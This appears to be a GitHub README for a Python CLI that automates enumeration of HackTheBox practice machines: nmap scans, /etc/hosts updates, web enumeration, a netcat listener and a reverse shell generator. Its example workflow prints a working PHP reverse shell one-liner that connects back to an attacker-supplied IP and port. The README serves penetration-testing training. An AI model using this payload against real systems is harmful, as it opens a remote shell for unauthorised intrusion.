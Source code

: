 # htb-scripts
Automation of htb scripts from LLM while solving htb machines

Below is the documentation for the script, detailing its usage, commands, and functionalities.

---

# HTB Enumerator Tool Documentation

![image](https://github.com/user-attachments/assets/1aa3532d-9ad0-43b1-b37e-4c86c7fa87d8)


## Overview

The HTB Enumerator Tool is a modular and interactive command-line interface (CLI) designed to assist in the enumeration of HackTheBox (HTB) machines. It provides various functionalities such as running Nmap scans, updating `/etc/hosts`, starting web servers, and more. The tool supports command auto-completion and command history for a user-friendly experience.

## Installation

### Prerequisites

- Python 3.x
- `termcolor` module: Install via `pip install termcolor`
- `readline` module: Typically included with Python on Unix-like systems

### Required Tools

The script checks for and installs the following tools if they are not already present:
- `nmap`
- `gobuster`
- `ffuf`
- `whatweb`

## Usage

### Running the Script

To run the script, use the following command:

```bash
sudo python3 htb_enum.py
```

**Note**: The script must be run with root privileges (`sudo`) to update `/etc/hosts`.

### Interactive CLI

Once the script is running, you will be presented with a prompt:

```
htb_enum >
```

You can enter various commands to perform different tasks. The available commands are listed below.

### Commands

#### `nmap`

Sets the IP address for the target machine.

```
htb_enum > nmap
Set IP: <IP_ADDRESS>
```

#### `run`

Runs an Nmap scan on the set IP address.

```
htb_enum > run
```

#### `host`

Sets the hostname for the target machine and updates `/etc/hosts`.

```
htb_enum > host
Set Hostname: <HOSTNAME>
```

#### `check_ports`

Checks for open web ports (80, 443, 8080, 5000) from the Nmap scan results.

```
htb_enum > check_ports
```

#### `enumerate_web`

Enumerates web servers on the open ports found.

```
htb_enum > enumerate_web
```

#### `start_server`

Starts a Python3 web server on a specified port.

```
htb_enum > start_server
Enter port for Python3 web server: <PORT>
```

#### `nc_listener`

Starts a Netcat listener on a specified port.

```
htb_enum > nc_listener
Enter port for nc listener: <PORT>
```

#### `php_shell`

Generates a PHP reverse shell command for a specified IP and port.

```
htb_enum > php_shell
Enter your IP for reverse shell: <YOUR_IP>
Enter your port for reverse shell: <YOUR_PORT>
```

#### `exit`

Exits the tool.

```
htb_enum > exit
```

### Auto-completion and Command History

- **Auto-completion**: Press the `Tab` key to auto-complete commands.
- **Command History**: Use the `Up` and `Down` arrow keys to navigate through previously entered commands.

## Example Workflow

1. **Set IP Address**:
   ```
   htb_enum > nmap
   Set IP: 10.10.10.10
   IP is set to 10.10.10.10
   ```

2. **Run Nmap Scan**:
   ```
   htb_enum > run
   Running Nmap scan... 🔍
   Nmap scan completed. Results saved in nmap_scan.txt ✅
   ```

3. **Set Hostname and Update `/etc/hosts`**:
   ```
   htb_enum > host
   Set Hostname: target
   Hostname is set to target
   Updating /etc/hosts... 🛠️
   Added 10.10.10.10    target.htb to /etc/hosts ✅
   ```

4. **Check Open Web Ports**:
   ```
   htb_enum > check_ports
   Open web ports: [80, 443]
   ```

5. **Enumerate Web Servers**:
   ```
   htb_enum > enumerate_web
   Enumerating web server on port 80... 🌐
   ...
   Enumerating web server on port 443... 🌐
   ...
   ```

6. **Start Python3 Web Server**:
   ```
   htb_enum > start_server
   Enter port for Python3 web server: 8000
   Starting Python3 web server on port 8000... 🌐
   ```

7. **Start Netcat Listener**:
   ```
   htb_enum > nc_listener
   Enter port for nc listener: 4444
   Starting nc listener on port 4444... 📡
   ```

8. **Generate PHP Reverse Shell Command**:
   ```
   htb_enum > php_shell
   Enter your IP for reverse shell: 192.168.1.100
   Enter your port for reverse shell: 4444
   PHP reverse shell command: php -r '$sock=fsockopen("192.168.1.100",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
   ```

## Error Handling

- **EOFError**: If you accidentally press `Ctrl+D`, the script will prompt you to use the `exit` command to quit.
- **KeyboardInterrupt**: If you press `Ctrl+C`, the script will remind you to use the `exit` command to quit.

## Exiting the Tool

To exit the tool, simply type:

```
htb_enum > exit
```

## Saving Command History

The command history is saved to `~/.htb_enum_history` and is loaded when the tool starts. This allows you to navigate through previous commands using the arrow keys.

## Conclusion

The HTB Enumerator Tool is designed to streamline the enumeration process for HackTheBox machines, providing a modular and interactive interface. With command auto-completion, history navigation, and a variety of built-in functionalities, it aims to enhance the efficiency and effectiveness of your enumeration tasks.

---

Feel free to customize and extend the tool as needed to fit your specific requirements. Happy enumerating!

